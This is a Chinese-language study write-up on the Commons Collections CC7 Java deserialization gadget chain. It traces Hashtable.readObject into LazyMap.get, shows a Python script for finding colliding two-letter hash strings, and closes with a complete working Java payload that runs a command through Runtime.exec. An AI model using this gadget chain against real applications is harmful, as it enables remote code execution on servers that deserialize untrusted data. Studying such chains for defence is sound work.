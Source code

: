 

##  前言

CC7是另一种方法调用LazyMap.get()

JDK没有限制，CommonsCollections 3.1 - 3.2.1

##  分析

这个链子也不是特别难的，因为第一次学，慢慢分析一下。

链子是从`HashTable`开始的，直接看`readObject`

```java
private void readObject(java.io.ObjectInputStream s)
         throws IOException, ClassNotFoundException
    {
        // Read in the threshold and loadFactor
        s.defaultReadObject();

        // Validate loadFactor (ignore threshold - it will be re-computed)
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new StreamCorruptedException("Illegal Load: " + loadFactor);

        // Read the original length of the array and number of elements
        int origlength = s.readInt();
        int elements = s.readInt();

        // Validate # of elements
        if (elements < 0)
            throw new StreamCorruptedException("Illegal # of Elements: " + elements);

        // Clamp original length to be more than elements / loadFactor
        // (this is the invariant enforced with auto-growth)
        origlength = Math.max(origlength, (int)(elements / loadFactor) + 1);

        // Compute new length with a bit of room 5% + 3 to grow but
        // no larger than the clamped original length.  Make the length
        // odd if it's large enough, this helps distribute the entries.
        // Guard against the length ending up zero, that's not valid.
        int length = (int)((elements + elements / 20) / loadFactor) + 3;
        if (length > elements && (length & 1) == 0)
            length--;
        length = Math.min(length, origlength);

        if (length < 0) { // overflow
            length = origlength;
        }

        // Check Map.Entry[].class since it's the nearest public type to
        // what we're actually creating.
        SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, length);
        table = new Entry<?,?>[length];
        threshold = (int)Math.min(length * loadFactor, MAX_ARRAY_SIZE + 1);
        count = 0;

        // Read the number of elements and then all the key/value objects
        for (; elements > 0; elements--) {
            @SuppressWarnings("unchecked")
                K key = (K)s.readObject();
            @SuppressWarnings("unchecked")
                V value = (V)s.readObject();
            // sync is eliminated for performance
            reconstitutionPut(table, key, value);
        }
    }
```

最后的几行代码是最关键的

我们继续看`reconstitutionPut`函数

```java
private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
    throws StreamCorruptedException
{
    if (value == null) {
        throw new java.io.StreamCorruptedException();
    }
    // Makes sure the key is not already in the hashtable.
    // This should not happen in deserialized version.
    int hash = key.hashCode();
    int index = (hash & 0x7FFFFFFF) % tab.length;
    //可以进入equals函数
    for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
        if ((e.hash == hash) && e.key.equals(key)) {
            throw new java.io.StreamCorruptedException();
        }
    }
    // Creates the new entry.
    @SuppressWarnings("unchecked")
        Entry<K,V> e = (Entry<K,V>)tab[index];
    tab[index] = new Entry<>(hash, key, value, e);
    count++;
}
```

这个hash与之前某个存入的相等那就会调用其`equals`方法，这里看了网上`payload`是让这个`e.key`为一个`Lazymap`对象，可以看到`LazyMap`本身没有equals方法

看他的父类：

![image-20220917182041379](img/image-20220917182041379.png)



这个`this.map`是传入的的`hashMap`，然后进入hashMap的父类

这个`Object o`是`LazyMap`,然后就调用了`get`函数

![image-20220917182408027](img/image-20220917182408027.png)



**hash相等的构造**

![image-20220917182937055](img/image-20220917182937055.png)

![image-20220917183003437](img/image-20220917183003437.png)

传入的yy和zZ都是两位数，所以计算两次

- yy：第一次y的ascii121，第二次31*121+121=3872
- zZ：第一次z的ascii122，第二次31*122+90=3872

只要满足下面脚本的，都可以

```python
import string
letter = string.ascii_uppercase+string.ascii_lowercase


def hashcode(string_expected):
    return 31 * ord(string_expected[0]) + ord(string_expected[1])


for i in letter:
    for j in letter:
        for k in letter:
            for l in letter:
                str1 = i+j
                str2 = k+l
                if str1 != str2:
                    if hashcode(str1) == hashcode(str2):
                        print(hashcode(str1), str1, str2, sep=" ")


```

**为什么payload中有一个lazyMap2.remove("yy")**

我自己调试了一下

![image-20220917182639499](img/image-20220917182639499.png)

![image-20220917182709400](img/image-20220917182709400.png)

![image-20220917182726657](img/image-20220917182726657.png)

![image-20220917182742915](img/image-20220917182742915.png)



直接触发了这个`get`函数进入了LazyMap中

![image-20220917182831836](img/image-20220917182831836.png)

##  payload

```java
package cc.cc7;

import cc.reflectPackage.Value;
import cc.unserializePackage.Unserialize;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class payload {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{
                                String.class,
                                Class[].class
                        },
                        new Object[]{
                                "getRuntime",
                                new Class[0]
                        }
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{
                                Object.class,
                                Object[].class
                        },
                        new Object[]{
                                null,
                                new Object[0]
                        }
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{
                                String.class
                        },
                        new Object[]{
                                "calc"
                        }
                )

        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{});
        Map lazyMap1 = LazyMap.decorate(new HashMap(), chainedTransformer);
        Map lazyMap2 = LazyMap.decorate(new HashMap(), chainedTransformer);

        lazyMap1.put("uZ", 1);
        lazyMap2.put("ty", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        Value.setValue(chainedTransformer, "iTransformers", transformers);
        lazyMap2.remove("uZ");

        Unserialize.unserialize(hashtable);
    }
}


```

##  参考链接

https://ho1aas.blog.csdn.net/article/details/123458271?spm=1001.2014.3001.5502
